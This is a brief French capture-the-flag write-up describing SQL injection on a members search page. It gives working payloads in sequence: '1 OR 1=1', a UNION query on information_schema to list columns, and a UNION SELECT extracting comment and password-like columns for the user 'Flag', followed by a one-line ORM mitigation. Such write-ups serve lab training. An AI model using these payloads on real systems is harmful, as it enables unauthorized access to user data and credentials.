 Menu déroulant/Members

On a une barre de recherche avec le contenu qui est directement injecter dns une requete sql.

1er etape:

1 OR 1=1 
On recupe tout les users et on se rends compte un user s'appel flag.

Ensuite on recupere toutes les colonnes de la base de donnée: 

1 UNION select table_name, column_name FROM information_schema.columns

Pour finir dans la table user en testant toute les colonnes et on a vue que les colonnes interessantes etait "Commentaire" et "countersign".
1 UNION SELECT Commentaire, countersign FROM users WHERE first_name = CHAR(70,108,97,103) --

Comment l'éviter ?

Les ORM bloquent ce genre d'injections. 
